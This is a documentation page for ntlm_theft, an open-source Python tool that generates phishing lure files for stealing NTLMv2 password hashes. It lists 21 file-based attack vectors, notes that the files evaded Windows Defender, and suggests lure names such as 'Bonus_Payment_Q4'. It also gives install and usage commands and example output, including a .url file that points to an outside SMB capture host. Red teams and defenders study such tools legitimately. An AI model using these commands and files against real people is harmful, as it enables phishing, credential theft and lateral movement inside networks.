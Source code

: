 ```yaml
---
title : "ntlm_theft"
# pre : ' '
description : "A tool for generating multiple types of NTLMv2 hash theft files."
date : 2022-09-19T08:41:52+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

`ntlm_theft` is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  

`ntlm_theft` supports the following attack types:

* Browse to Folder Containing
  * .url – via URL field
  * .url – via ICONFILE field
  * .lnk - via icon_location field
  * .scf – via ICONFILE field (Not Working on Latest Windows)
  * autorun.inf via OPEN field (Not Working on Latest Windows)
  * desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
  * .xml – via Microsoft Word external stylesheet
  * .xml – via Microsoft Word includepicture field
  * .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
  * .docx – via Microsoft Word includepicture field
  * .docx – via Microsoft Word external template
  * .docx – via Microsoft Word frameset webSettings
  * .xlsx - via Microsoft Excel external cell
  * .wax - via Windows Media Player playlist (Better, primary open)
  * .asx – via Windows Media Player playlist (Better, primary open)
  * .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
  * .jnlp – via Java external jar
  * .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
  * .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
  * .txt – formatted link to paste into Zoom chat

### Installation

```plain
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 -m pip install xlsxwriter
```

### Usage

```plain
ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
```

### Flags

```plain
ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}, --generate {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}
                        Choose to generate all files or a specific filetype
  -s SERVER, --server SERVER
                        The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f FILENAME, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)
```

Required parameters.

```plain
-g, --generate  : Choose to generate all files or a specific filetype
-s, --server    : The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename  : The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

### Examples

#### Create LNK file(s)

```plain
$ python3 ntlm_theft.py -g lnk -s 10.10.10.10 -f generated-file    
Created: generated-file/generated-file.lnk (BROWSE TO FOLDER)
Generation Complete.
```

#### Create URL file(s)

```plain
$ python3 ntlm_theft.py -g url -s 10.10.10.10 -f generated-url  
Created: generated-url/generated-url-(url).url (BROWSE TO FOLDER)
Created: generated-url/generated-url-(icon).url (BROWSE TO FOLDER)
Generation Complete.

$ cat generated-url/generated-url-\(url\).url 
[InternetShortcut]
URL=file://10.10.10.10/leak/leak.html
```

### URL list

* [Github.com - ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
